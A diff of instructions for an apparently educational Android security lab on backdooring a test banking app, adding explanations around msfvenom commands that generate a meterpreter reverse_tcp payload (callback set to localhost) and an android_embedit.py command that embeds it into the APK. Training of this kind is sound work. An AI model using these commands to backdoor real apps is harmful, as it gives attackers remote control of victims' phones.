

Before and after one commit to deruke/AndroidLabs, a Markdown page: Labs/LAB_X_APK_Makeover_Android_Edition/instructions.md, the part around one of its changes. Shown at 81% size. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/Labs/LAB_X_APK_Makeover_Android_Edition/instructions.md
+++ b/Labs/LAB_X_APK_Makeover_Android_Edition/instructions.md
@@ -6,7 +6,7 @@ Objectives:
 
 - Add a backdoor to a published APK
 - Acquire troubleshooting techniques for mobile testing
-- Analyze and compare the original APKs for signs of tampering or malicious functionality
+- Analyze and compare the original APK to the backdoored APK for signs of tampering or malicious functionality
 
 Tools Used in This Lab:
 
@@ -19,17 +19,29 @@ Tools Used in This Lab:
 
 TODO: Run `msfvenom -h` in VM to initialize msf. Otherwise, the next step will hang.
 
-`msfvenom -l payloads | grep android`
+Metasploit Framework provides a handful of payloads that target the Android platform. Run the following command to see what's available.
+
+```
+msfvenom -l payloads | grep android
+```
 
 ![](2023-02-09-10-56-05.png)
 
-`msfvenom LHOST=127.0.0.1 LPORT=443 -p android/meterpreter/reverse_tcp R > msf.apk`
+We'll be using `android/meterpreter/reverse_tcp` for this lab. The callback IP address is set to locahost because we do not need to run it. Run the following command to generate the APK that we will embed in HackerBank.
+
+```
+msfvenom LHOST=127.0.0.1 LPORT=443 -p android/meterpreter/reverse_tcp R > msf.apk
+```
 
 ![](2023-02-09-10-59-58.png)
 
 ## Introduction to android_embedit.py
 
+`android_embedit.py` is a tool written by Joff Thyer to embed smali code inside of existing APK files (i.e. add a backdoor).
+
 https://github.com/yoda66/AndroidEmbedIT
+
+The process of backdooring an APK is relatively straight forward as can be seen in the following screenshot from the same repo. Doing this manually though is highly error prone. `android_embedity.py` automates the steps that are particularly easy to mess up such as adjusting the entrypoint and AndroidManifest.xml file. Be sure to tell Joff thank you the next time you see him. :)
 
 ![](2023-02-09-11-03-21.png)
 
@@ -37,17 +49,25 @@ TODO: Ensure that HackerBank app APK file is in VM
 
 TODO: Add android_embedit.py to VM
 
-`python3 android_embedit.py -h`
+Run the following command to get an idea of how to use `android_embedit.py`.
+
+```
+python3 android_embedit.py -h
+```
 
 ![](2023-02-09-11-12-43.png)
 
-`python3 android_embedit.py app-release.apk msf.apk`
+The two required arguments are the original APK and the "malicious" APK that you want to embed. Run the following command to embed the meterpreter payload into HackerBank.
+
+```
+python3 android_embedit.py app-release.apk msf.apk
+```
 
 ![](2023-02-09-11-14-22.png)
 
 ## Smoke Check: Decompile then Build
 
-Why? Make sure this works before modifying the app.
+Uh oh. We got an error message. Let's take a closer look at what's going on to figure out why the script failed. As an initial troubleshooting step, let's try to decompile the app and rebuild it without making any changes to it. That will tell us if our tool chain is working. We'll use `apktool` for this step.
 
 TODO: Ensure apktool version 2.7.0 is in VM. The apktool package is 2.5.0 and does not work with HackerBank.
 
@@ -55,7 +75,11 @@ TODO: Create a shell script to launch apktool and copy it to /usr/local/bin
 
 TODO: Fix commands and screenshots below.
 
-`java -jar Downloads/apktool_2.7.0.jar -h`
+ Run the following command to the help menu for `apktool`.
+
+```
+apktool -h
+```
 
 ![](2023-02-09-11-23-25.png)
 
````
Also changed, not shown: other parts of Labs/LAB_X_APK_Makeover_Android_Edition/instructions.md (+63 -29 lines).
